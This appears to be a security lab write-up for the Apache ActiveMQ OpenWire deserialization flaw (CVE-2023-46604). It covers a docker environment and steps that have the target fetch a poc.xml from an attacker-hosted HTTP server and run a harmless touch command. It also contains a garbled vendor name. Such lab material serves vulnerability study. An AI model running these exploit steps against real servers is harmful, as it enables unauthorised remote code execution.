

Apache ActiveMQ OpenWire Protocol Deserialization RCE (CVE-2023-46604)¶
Apache ActiveMQ is an open source messaging middleware developed by the American Pachitea (Apache) Software Foundation that supports Java messaging services, clustering, Spring framework, and more.
OpenWire protocol is designed by ActiveMQ, to allow native access to ActiveMQ from a number of different languages and platforms. Apache ActiveMQ prior to 5.18.2 was affected by a deserialization vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.
References:
- https://activemq.apache.org/news/cve-2023-46604
- https://xz.aliyun.com/t/12929
- https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/
- https://forum.butian.net/share/2566
Environment setup¶
ActiveMQ listens to following 2 ports:
| Default port | Default Condition |
|---|---|
| 8161 (web) | Remote access requires configuration |
| 61616 (tcp) | Remote access allowed |
The deserialization issue exists in the port 61616.
Enter following commands to run a ActiveMQ 5.17.3 server:
docker compose up -d
Please access http://your-ip:8161 to confirm that the service has started successfully before exploitation, although we only need to use the port 61616 after that.
Exploit¶
You can quickly start an HTTP server in the folder where the poc.xml file is located using the Python3 http.server module:
python3 -m http.server 6666
Then execute the poc.py:
python3 poc.py target port http://ip of http server/poc.xml
You can check inside the ActiveMQ container using the following command:
docker exec cve-2023-46604-activemq-1 ls -l /tmp
If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.
